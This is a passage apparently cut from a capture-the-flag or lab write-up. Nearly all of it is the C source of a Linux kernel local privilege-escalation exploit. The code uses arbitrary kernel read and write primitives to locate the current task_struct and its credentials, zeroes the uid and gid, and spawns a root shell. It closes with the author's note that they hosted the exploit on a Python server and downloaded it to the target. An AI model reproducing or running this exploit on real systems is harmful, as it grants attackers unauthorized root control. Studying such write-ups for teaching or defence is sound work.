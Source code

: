 ```

	return get_value(2);
}

static void __write(uint64_t addr, uint64_t val) {
	__update_elem(2, addr, val);
}

static uint64_t get_sp(uint64_t addr) {
	return addr & ~(0x4000 - 1);
}

static void pwn(void) {
	uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);

	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}

int main(int argc, char **argv) {
	prep();
	pwn();

	return 0;
}
```
#### I ran a python server to host the exploit then I downloaded it on the box :